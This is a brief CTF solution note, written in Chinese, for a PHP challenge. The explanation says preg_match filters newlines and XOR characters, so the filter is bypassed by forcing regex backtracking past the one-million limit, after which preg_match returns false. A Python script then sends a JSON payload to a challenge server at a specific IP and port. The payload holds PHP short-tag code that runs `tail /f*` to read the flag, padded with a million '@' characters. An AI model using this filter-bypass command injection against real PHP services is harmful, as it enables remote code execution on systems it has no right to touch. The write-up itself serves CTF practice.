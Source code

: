 ![[Pasted image 20231214092655.png]]
preg_match过滤了换行符和异或符号，所以考虑利用preg_match本身回身回溯超过1000000会返回false绕过。

payload:

    import requests
    payload='{"cmd":"?><?= `tail /f*`?>","test":"' + "@"*(1000000) + '"}'
    res = requests.post("http://1.14.71.254:28397/", data={"letter":payload})
    print(res.text)
